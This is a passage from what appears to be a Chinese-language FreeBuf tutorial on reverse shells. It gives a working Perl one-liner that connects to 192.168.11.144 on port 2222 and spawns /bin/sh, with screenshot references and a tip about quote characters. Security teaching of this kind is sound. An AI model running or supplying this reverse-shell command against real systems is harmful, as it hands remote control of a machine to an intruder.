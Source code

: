 目标主机：
 
![][31]
 
 **Perl反向shell** 
 
目标主机端执行语句：
 
``` v
perl -e 'use Socket;$i="192.168.11.144";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
 
本地主机
 
![][32]
 
目标主机
 
![][33]
 
 **注:书写的时候一定要注意这里单引号、双引号是英文格式的，不然会报错误！** 
 
总结：有一句话为“温故而知新”，同时又有一句话为“实践出真知”，当这两句话同时践行的时候，就会擦出不一样的火花，你会看到你之前未见到的，掌握到你之前生疏的技能！Netcat固然好用，但是也要经过实践才知道，那你还在等什么呢？
 
 ***本文作者：Fly鹏程万里，转载请注明来自 FreeBuf.COM** 
 


[0]: https://img1.tuicool.com/zmY7ji6.jpg 
[1]: https://img1.tuicool.com/2iA3MzA.jpg 
[2]: https://img0.tuicool.com/zQN3qqr.jpg 
[3]: https://img1.tuicool.com/6VnIRnf.jpg 
[4]: https://img2.tuicool.com/rayUZrI.jpg 
[5]: https://img1.tuicool.com/zeQVbqA.jpg 
[6]: https://img0.tuicool.com/ZzQJJjB.jpg 
[7]: https://img1.tuicool.com/VbU3IfI.jpg 
[8]: https://img1.tuicool.com/amaayuj.jpg 
[9]: https://img1.tuicool.com/YbMFz2Z.jpg 
[10]: https://img0.tuicool.com/Fn2Ijq3.jpg 
[11]: https://img2.tuicool.com/EZf6jq2.jpg 
[12]: https://img1.tuicool.com/aiaUJvb.jpg 
[13]: https://img1.tuicool.com/vY3UVb2.jpg 
[14]: https://img0.tuicool.com/YrmAnyJ.jpg 
[15]: https://img1.tuicool.com/FvANzaM.jpg 
[16]: https://img1.tuicool.com/AvE7Vbz.jpg 
[17]: https://img1.tuicool.com/7fAF7rz.jpg 
[18]: https://img0.tuicool.com/mmMR3ia.jpg 
[19]: https://img2.tuicool.com/eq6z6vV.jpg 
[20]: https://img0.tuicool.com/imy2Uny.jpg 
[21]: https://img0.tuicool.com/eARVV3n.jpg 
[22]: https://img0.tuicool.com/MnIVzy6.jpg 
[23]: https://img2.tuicool.com/rArYfea.jpg 
[24]: https://img0.tuicool.com/fYZzEzB.jpg 
[25]: https://img1.tuicool.com/Y7FZNfI.jpg 
[26]: https://img2.tuicool.com/meiaaiV.jpg 
[27]: https://img2.tuicool.com/73ERri3.jpg 
[28]: https://img0.tuicool.com/i2Aneqy.jpg 
[29]: https://img2.tuicool.com/YRveauf.jpg 
[30]: https://img2.tuicool.com/Vjayym3.jpg 
[31]: https://img1.tuicool.com/V3auuej.jpg 
[32]: https://img0.tuicool.com/aUZBbuF.jpg 
[33]: https://img0.tuicool.com/aIVbeyI.jpg 